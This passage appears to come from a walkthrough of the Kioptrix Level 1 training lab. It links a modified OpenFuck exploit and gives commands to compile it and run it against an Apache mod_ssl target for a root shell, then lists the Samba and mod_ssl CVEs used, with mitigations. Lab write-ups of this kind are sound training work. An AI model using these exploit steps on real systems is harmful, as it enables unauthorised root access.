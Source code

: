 after a search on google I found a modified version of openfuck here is the code:

[openfuck updated github](https://github.com/heltonWernik/OpenLuck)

1. install libssl-dev: `apt install libssl-dev`
2. you must compile it: `gcc -o OpenFuck OpenFuck.c -lcrypto`
3. run the exploit: `./OpenFuck 0x6b 192.168.1.9 443 -c 50` the `0x6b` for the apache version `Red Hat Linux, using apache version 1.3.20`

![[kioptrix level 1 rooted via modssl openfuck.png]]

luckily we got a root shell successfully

### 4. Summary And Chain Of Vuln That We Used
1. **Samba trans2open Buffer Overflow (CVE-2003-0201)**:
    
    - **Mitigation**: Update Samba to a patched version or disable unused services.
        
2. **mod_ssl OpenSSL Buffer Overflow (CVE-2002-0082)**:
    
    - **Mitigation**: Upgrade OpenSSL and mod_ssl to versions without known vulnerabilities.
